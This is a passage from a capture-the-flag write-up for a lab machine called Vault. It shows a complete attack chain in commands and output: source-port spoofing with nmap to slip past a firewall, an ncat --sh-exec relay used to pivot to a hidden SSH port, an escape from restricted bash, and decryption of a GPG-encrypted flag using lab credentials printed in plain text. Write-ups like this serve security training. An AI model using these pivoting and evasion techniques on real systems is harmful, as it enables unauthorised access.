      Sep  2 15:10:34 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 3333 --sh-exec ncat 192.168.5.2 987 -p 53
    
    

From here we are heavily hinted to use the same nmap command but to make our scan originate from our port 4444: 
    
    
      dave@DNS:~$ sudo /usr/bin/nmap 192.168.5.2 -Pn -f --source-port=4444
    
      Starting Nmap 7.01 ( https://nmap.org ) at 2020-03-24 10:34 GMT
      mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
      Nmap scan report for Vault (192.168.5.2)
      Host is up (0.0022s latency).
      Not shown: 999 closed ports
      PORT    STATE SERVICE
      987/tcp open  unknown
    
      Nmap done: 1 IP address (1 host up) scanned in 20.84 seconds
    
    

Now we see something interesting, we have an opened port 987 although with an unknown service, so let's verify it with the netstat command : 
    
    
      dave@DNS:~$ netstat -atun
      Active Internet connections (servers and established)
      Proto Recv-Q Send-Q Local Address           Foreign Address         State
      tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
      tcp        0      0 192.168.122.4:22        192.168.122.1:50700     ESTABLISHED
      tcp6       0      0 :::80                   :::*                    LISTEN
      tcp6       0      0 :::22                   :::*                    LISTEN
      tcp6       0      0 192.168.122.4:80        192.168.122.1:52998     ESTABLISHED
      udp        0      0 0.0.0.0:36685           0.0.0.0:*
    

In the previous auth.log file we were also hinted to use the ncat command like so : 
    
    
      dave@DNS:~$ sudo ncat 192.168.5.2 987 -p 53
      SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
    

And there we have it ! 192.168.5.2 987 is an ssh port which seems to be accessible only from ports 53 or 4444. so we'll use netcat to create a port forwarding from our machine (192.168.122.4:53) to our final destination (192.168.5.2:987) 
    
    
      sudo /usr/bin/ncat -l 1234 --sh-exec "ncat 192.168.5.2 987 -p 53" & sleep 5 && ssh dave@localhost -p 1234
    

This will allow us to use our localhost (127.0.0.1)'s 1234 port to access our final destination(192.168.5.2)'s 987 port from our current machine (192.168.122.4)'s 53 port. To which we will ssh using the same credentials as we used for 192.168.122.4 (dave/dav3gerous567) : 

    
    
      dave@DNS:~$ sudo /usr/bin/ncat -l 1234 --sh-exec "ncat 192.168.5.2 987 -p 53" & sleep 5 && ssh dave@localhost -p 1234
      [1] 13546
      The authenticity of host '[localhost]:1234 ([::1]:1234)' can't be established.
      ECDSA key fingerprint is SHA256:Wo70Zou+Hq5m/+G2vuKwUnJQ4Rwbzlqhq2e1JBdjEsg.
      Are you sure you want to continue connecting (yes/no)? yes
      Warning: Permanently added '[localhost]:1234' (ECDSA) to the list of known hosts.
      dave@localhost's password:
      Permission denied, please try again.
      dave@localhost's password:
      Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic i686)
    
       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
      96 packages can be updated.
      49 updates are security updates.
    
    
      Last login: Mon Sep  3 16:48:00 2018
      dave@vault:~$ ls
      root.txt.gpg
      dave@vault:~$ cat root-rbash: /dev/null: restricted: cannot redirect output
      bash: _upvars: `-a2': invalid number specifier
      -rbash: /dev/null: restricted: cannot redirect output
      bash: _upvars: `-a0': invalid number specifier
    
      cat: root: No such file or directory
      dave@vault:~$ exit
      logout
      -rbash: /usr/bin/clear_console: restricted: cannot specify `/' in command names
      Connection to localhost closed.
    

And we got trolled! it gave us access to vault, but we got dropped into a restricted bash (rbash) so we will specify the correct bash we want to use in the ssh command: 
    
    
      dave@DNS:~$ sudo /usr/bin/ncat -l 1234 --sh-exec "ncat 192.168.5.2 987 -p 53" & sleep 5 && ssh dave@localhost -p 1234 -t "bash --noprofile"
      [1] 13553
      dave@localhost's password:
      dave@vault:~$ ls
      root.txt.gpg
    
      dave@vault:~$ file root.txt.gpg
      root.txt.gpg: PGP RSA encrypted session key - keyid: 10C678C7 31FEBD1 RSA (Encrypt or Sign) 4096b .
    
      dave@vault:~$ which gpg
      /usr/bin/gpg
    
      dave@vault:~$ gpg -d root.txt.gpg
      gpg: encrypted with RSA key, ID D1EB1F03
      gpg: decryption failed: secret key not available
    
    

And we get into a proper shell ! although as you can see we need a certain private key to decrypt it. However we do have the private key with the ID D1EB1F03 we need on the first machine (192.168.122.1 or 10.10.10.109) 
    
    
      dave/Dav3therav3123 (192.168.122.1) (also 10.10.10.109)
      dave/dav3gerous567  (192.168.122.4)
    
    
    
      [0] nothing [ 10.10.14.24/23 ] [~]
      → ssh dave@10.10.10.109
      dave@10.10.10.109's password:
      Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-45-generic x86_64)
    
       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
      222 packages can be updated.
      47 updates are security updates.
    
      Last login: Tue Mar 24 03:22:31 2020 from 10.10.14.24
      dave@ubuntu:~$ gpg --list-secret-keys
      /home/dave/.gnupg/secring.gpg
      -----------------------------
      sec   4096R/0FDFBFE4 2018-07-24
      uid                  david <****dave@david.com>
      ssb   4096R/D1EB1F03 2018-07-24
    
      dave@ubuntu:~$ ls
      Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos
      dave@ubuntu:~$ cd Desktop
      dave@ubuntu:~/Desktop$ ls
      key  Servers  ssh
    
      dave@ubuntu:~/Desktop$ cat key
      itscominghome

The decrypted key was actually in dave's desktop and it is the password "itscominghome" so we use it to decrypt root.txt.gpg: 
    
    
      dave@vault:~$ gpg -d root.txt.gpg
      gpg: encrypted with RSA key, ID D1EB1F03
      gpg: decryption failed: secret key not available
      dave@vault:~$
    

Although as you can see we can't just pass it the passphrase since the actual key is not on 192.168.5.2, it is on 192.168.122.1 ! From here, the simplest way to continue this box is to copy the file to ubuntu to decrypt it by simply doing a copy paste using base64 encoding and decoding : 
    
    
      dave@vault:~$ which base64
      dave@vault:~$ which base32
      /usr/bin/base32
    
    

Yet another troll ! we have to use base32 instead of base64 but that's not a problem, we can do that aswell : 
    
    
      dave@vault:~$ base32 root.txt.gpg
    QUBAYA6HPDDBBUPLD4BQCEAAUCMOVUY2GZXH4SL5RXIOQQYVMY4TAUFOZE64YFASXVITKTD56JHD
    LIHBLW3OQMKSHQDUTH3R6QKT3MUYPL32DYMUVFHTWRVO5Q3YLSY2R4K3RUOYE5YKCP2PAX7S7OJB
    GMJKKZNW6AVN6WGQNV5FISANQDCYJI656WFAQCIIHXCQCTJXBEBHNHGQIMTF4UAQZXICNPCRCT55
    AUMRZJEQ2KSYK7C3MIIH7Z7MTYOXRBOHHG2XMUDFPUTD5UXFYGCWKJVOGGBJK56OPHE25OKUQCRG
    VEVINLLC3PZEIAF6KSLVSOLKZ5DWWU34FH36HGPRFSWRIJPRGS4TJOQC3ZSWTXYPORPUFWEHEDOE
    OPWHH42565HTDUZ6DPJUIX243DQ45HFPLMYTTUW4UVGBWZ4IVV33LYYIB32QO3ONOHPN5HRCYYFE
    CKYNUVSGMHZINOAPEIDO7RXRVBKMHASOS6WH5KOP2XIV4EGBJGM4E6ZSHXIWSG6EM6ODQHRWOAB3
    AGSLQ5ZHJBPDQ6LQ2PVUMJPWD2N32FSVCEAXP737LZ56TTDJNZN6J6OWZRTP6PBOERHXMQ3ZMYJI
    UWQF5GXGYOYAZ3MCF75KFJTQAU7D6FFWDBVQQJYQR6FNCH3M3Z5B4MXV7B3ZW4NX5UHZJ5STMCTD
    ZY6SPTKQT6G5VTCG6UWOMK3RYKMPA2YTPKVWVNMTC62Q4E6CZWQAPBFU7NM652O2DROUUPLSHYDZ
    6SZSO72GCDMASI2X3NGDCGRTHQSD5NVYENRSEJBBCWAZTVO33IIRZ5RLTBVR7R4LKKIBZOVUSW36
    G37M6PD5EZABOBCHNOQL2HV27MMSK3TSQJ4462INFAB6OS7XCSMBONZZ26EZJTC5P42BGMXHE274
    64GCANQCRUWO5MEZEFU2KVDHUZRMJ6ABNAEEVIH4SS65JXTGKYLE7ED4C3UV66ALCMC767DKJTBK
    TTAX3UIRVNBQMYRI7XY=
    

Copy paste the string on 192.168.122.1 and save it as '0xRick_is_awesome' :
    
    
      dave@ubuntu:~/Desktop$ echo 'QUBAYA6HPDDBBUPLD4BQCEAAUCMOVUY2GZXH4SL5RXIOQQYVMY4TAUFOZE64YFASXVITKTD56JHD
      > LIHBLW3OQMKSHQDUTH3R6QKT3MUYPL32DYMUVFHTWRVO5Q3YLSY2R4K3RUOYE5YKCP2PAX7S7OJB
      > GMJKKZNW6AVN6WGQNV5FISANQDCYJI656WFAQCIIHXCQCTJXBEBHNHGQIMTF4UAQZXICNPCRCT55
      > AUMRZJEQ2KSYK7C3MIIH7Z7MTYOXRBOHHG2XMUDFPUTD5UXFYGCWKJVOGGBJK56OPHE25OKUQCRG
      > VEVINLLC3PZEIAF6KSLVSOLKZ5DWWU34FH36HGPRFSWRIJPRGS4TJOQC3ZSWTXYPORPUFWEHEDOE
      > OPWHH42565HTDUZ6DPJUIX243DQ45HFPLMYTTUW4UVGBWZ4IVV33LYYIB32QO3ONOHPN5HRCYYFE
      > CKYNUVSGMHZINOAPEIDO7RXRVBKMHASOS6WH5KOP2XIV4EGBJGM4E6ZSHXIWSG6EM6ODQHRWOAB3
      > AGSLQ5ZHJBPDQ6LQ2PVUMJPWD2N32FSVCEAXP737LZ56TTDJNZN6J6OWZRTP6PBOERHXMQ3ZMYJI
      > UWQF5GXGYOYAZ3MCF75KFJTQAU7D6FFWDBVQQJYQR6FNCH3M3Z5B4MXV7B3ZW4NX5UHZJ5STMCTD
      > ZY6SPTKQT6G5VTCG6UWOMK3RYKMPA2YTPKVWVNMTC62Q4E6CZWQAPBFU7NM652O2DROUUPLSHYDZ
      > 6SZSO72GCDMASI2X3NGDCGRTHQSD5NVYENRSEJBBCWAZTVO33IIRZ5RLTBVR7R4LKKIBZOVUSW36
      > G37M6PD5EZABOBCHNOQL2HV27MMSK3TSQJ4462INFAB6OS7XCSMBONZZ26EZJTC5P42BGMXHE274
      > 64GCANQCRUWO5MEZEFU2KVDHUZRMJ6ABNAEEVIH4SS65JXTGKYLE7ED4C3UV66ALCMC767DKJTBK
      > TTAX3UIRVNBQMYRI7XY=' > 0xRick_is_awesome
    
      dave@ubuntu:~/Desktop$ which base32
      /usr/bin/base32
    
      dave@ubuntu:~/Desktop$ cat 0xRick_is_awesome | base32 -d > root.txt.gpg
    
      dave@ubuntu:~/Desktop$ file root.txt.gpg
      root.txt.gpg: PGP RSA encrypted session key - keyid: 10C678C7 31FEBD1 RSA (Encrypt or Sign) 4096b .
    
    

` 

Now on 192.168.122.1 we have access to the private key we need , so let's attempt to decrypt it with the itscominghome passphrase:
    
    
      dave@ubuntu:~/Desktop$ gpg -d root.txt.gpg
    
      You need a passphrase to unlock the secret key for
      user: "david <****dave@david.com>"
      4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)
    
      gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
            "david <****dave@david.com>"
      caXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

And that's it! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

